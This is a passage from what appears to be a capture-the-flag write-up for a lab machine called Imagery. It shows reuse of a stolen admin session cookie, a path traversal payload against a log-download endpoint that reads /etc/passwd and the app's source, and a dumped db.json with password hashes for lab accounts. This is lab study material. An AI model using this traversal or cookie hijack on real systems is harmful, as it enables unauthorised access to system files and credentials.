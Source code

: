 This will reveal the admin session cookie.

Using this we'll login to the admin panel. (simply modify the existing cookie on the webpage)

From here the download logs functionality is vulnerable to classic LFI `/admin/get_system_log?log_identifier=../../../../etc/passwd`.
So let's try and read some source code from `../app.py`.

Based on the source code we can construct a directory structure like this for the app:
```
project/
│
├── app.py                         # The main entry point (your provided script)
├── config.py                      # Configuration variables (e.g., SYSTEM_LOG_FOLDER, BLOCKED_APP_PORTS)
├── utils.py                       # Contains _load_data(), _save_data(), etc.
│
├── templates/
│   └── index.html                 # Template rendered at the root endpoint ('/')
│
├── api_auth.py                    # Blueprint for authentication
├── api_upload.py                  # Blueprint for upload handling
├── api_manage.py                  # Blueprint for managing uploaded content
├── api_edit.py                    # Blueprint for editing content
├── api_admin.py                   # Blueprint for admin-related routes
├── api_misc.py                    # Blueprint for miscellaneous routes
│
├── db.json                          # location for your data file (used by _load_data / _save_data, read from config.py)
│
├── logs/                          # User log files stored here (matches SYSTEM_LOG_FOLDER)
│   └── <username>.log             # One log file per user
│
└── static/                        # (Optional) For serving static assets like JS, CSS, images
    └── ...                        # Static files here

```

This is db.json

```json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
```